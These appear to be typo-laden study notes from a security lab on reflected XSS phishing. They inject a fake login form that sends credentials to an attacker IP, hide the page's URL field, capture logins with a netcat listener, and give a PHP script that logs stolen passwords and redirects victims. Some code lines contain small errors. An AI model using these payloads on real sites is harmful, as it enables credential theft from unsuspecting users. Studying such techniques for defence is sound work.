 We should prepare our XSS code and test it on the vulnerable form, HTML code to the vulnerable page, we can use the JS funtion [document.write()] and use in it XSS payload
we found earlier in the XSS Discovery strep. Once we manify  our HTML code into a single line and add it inside thje write funtion, the JS code should be as:
`document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');`\
We can now injected this JS code using our XSS payload [alert(window.origin)] JS code we are exploiting a Reflected XSS vulnerability, so we can copy the URL and our XSS payload in its parameter, as
we've done in Reflected XSS section, adn the page should look as follow:
http://IP/phishing/index.php?url=..SNIP..

- Cleaning UP:
We can see that the URL fied is still displayed, which defeats our line of "Please login to continue", to encourage the victim to use the login form, we should remove the URL field, such
that they may think that they have to log in the be  able to use the page. We can use the JS funtion [document.getElementById().remove()] funtion.
To find id of the HTML element we want to remove, we can open the [PAge inspectior picker] and then click the element.
```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>

```
We can now use the id with the [remove()] funtion the URL from:
`document.getElementByID('urlfrom').remove();`
Now once added this code JS code we can use this new JS code in our payload.
`document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();`

We also see the there's still a pice of original HTML code left after our injected login form this can be removed by simply commenting it out.

- Credential Stealing:
We come to the part where we steal the login credentials when the victim attempts to log in oir injected login form. If we tried to log into the injected login form, u would
probably get the error [this site can't be reached]. As mentioned our HTML is designed to send the loging request to our IP our IP, which should be listening for connection. So let us
start a simple nc server.
`nc -lvnp 80`

As we can see we can capture the credential in the HTTP request URL[/?username=test&password=test]/ As we are only listening with nc, it will not handle the HTTP request correctly, and the victim would get an UNAble to connect error
which may raise some suspecious. We can use basic PHP script that logs the credentials form the HTTP request and the return the victim to the original page witout anyt injection.
The following Php script should what we need. proc/
```php
<?php
if (isset($_GET['username']) && isset ($_GET['password'])) {
    $file = fopen("creds.txt","a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n);
    header("Location: "); #IP and url of the page
    fclose($file);
    exit();
}
```
Now we have our script we can start the PHP listening server, which netcat
